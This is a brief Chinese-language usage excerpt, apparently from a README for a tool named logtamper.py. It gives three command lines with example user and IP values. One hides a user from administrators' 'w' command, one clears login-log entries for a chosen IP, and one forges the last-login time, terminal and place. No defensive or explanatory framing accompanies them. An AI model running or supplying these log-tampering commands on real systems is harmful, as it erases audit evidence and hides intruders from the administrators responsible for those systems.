 
躲避管理员w查看

python logtamper.py -m 1 -u re4lity -i 192.168.0.188

清除指定ip的登录日志

python logtamper.py -m 2 -u re4lity -i 192.168.0.188

修改上次登录时间地点

python logtamper.py -m 3 -u re4lity -i 192.168.0.188 -t tty1 -d 2014:05:28:10:11:12
